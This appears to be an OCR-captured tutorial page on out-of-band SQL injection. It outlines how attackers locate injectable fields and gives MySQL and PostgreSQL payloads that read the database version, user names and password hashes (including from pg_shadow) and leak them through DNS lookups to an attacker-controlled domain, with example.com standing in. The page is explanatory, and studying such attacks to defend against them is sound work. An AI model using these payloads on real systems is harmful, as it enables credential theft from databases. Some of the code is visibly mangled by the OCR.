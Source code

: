 Out-of-band SQL injection (OOB SQLi) is a type of SQL injection where the attacker does not receive a response from the attacked application on the same communication channel but instead is able to cause the application to send data to a remote endpoint that they control. This technique is particularly useful when the server responses are not very stable, making an inferential time-based attack unreliable.

### How Hackers Find and Exploit It

Out-of-band SQL injection is only possible if the server that you are using has commands that trigger DNS or HTTP requests. However, that is the case with all popular SQL servers. Now let see step-by-step how hackers find OOB SQLi.

- **Identify User Input Fields**: Start by identifying all the user input fields on the website. These are common points of exploitation.
- **Test for Vulnerabilities**: Test these fields for vulnerabilities by inserting special characters or SQL commands. For instance, appending a single quote (') to the input can help identify potential vulnerabilities.
- **Analyze HTTP Requests and Responses**: If the website returns an error, it might indicate that the input is being incorporated into a SQL query without proper sanitization. Analyze the HTTP requests sent to and responses received from the server. This can provide clues about the structure of the underlying SQL queries.
- **Craft Payloads**: If a potential vulnerability is identified, craft payloads designed to manipulate the SQL queries. In the case of OOB SQLi, these payloads aim to cause the application to send data to a remote endpoint controlled by the attacker.
- **Monitor Remote Endpoint**: Finally, monitor the remote endpoint for any data sent by the application. If data is received, it confirms the presence of an OOB SQLi vulnerability.

Here are some examples of how this can be exploited in different SQL servers:

If the MySQL database server is started with an empty `secure_file_priv` global system variable, which is the case by default for MySQL server 5.5.52 and below (and in the MariaDB fork), an attacker can exfiltrate data and then use the `load_file` function to create a request to a domain name, putting the exfiltrated data in the request.

```html
SELECT  load_file( CONCAT('\\\\\\\\',(SELECT+ @@version),'.',(SELECT+user),'.', (SELECT+ password),'.', example. com\\\\test. txt'))
```

This will cause the application to send a DNS request to the domain as per the following example: `database_version.database_user.database_password.example.com` and so, exposing sensitive data (database version, user name, and the user’s password) to the attacker.

### PostgreSQL

The following SQL query achieves the same result as above if the application is using a PostgreSQL database:

```html
DROP TABLE IF EXISTS  table_output;
CREATE TABLE  table_output( content  text);
CREATE OR REPLACE FUNCTION  temp_function()RETURNS  VOID  AS  $$  
DECLARE  exec_cmd  TEXT; 
DECLARE  query_result_version  TEXT; 
DECLARE  query_result_user  TEXT; 
DECLARE  query_result_password  TEXT; 
BEGIN 
SELECT INTO  query_result_version  (SELECT  current_setting('server_version')); 
SELECT INTO  query_result_user  (SELECT  usename  FROM  pg_shadow); 
SELECT INTO  query_result_password  (SELECT  passwd  FROM  pg_shadow);  
exec_cmd :=  E'COPY table_output(content) FROM E\\'\\\\\\\\\\\\\\\\'|| query_result_version||'.'|| query_result_user||'.'|| query_result_password || E '.example.com\\\\\\\\test.txt\\''; 
EXECUTE  exec_cmd; 
END;  
$$  LANGUAGE  plpgsql SECURITY  DEFINER; 
SELECT  temp_function();
```
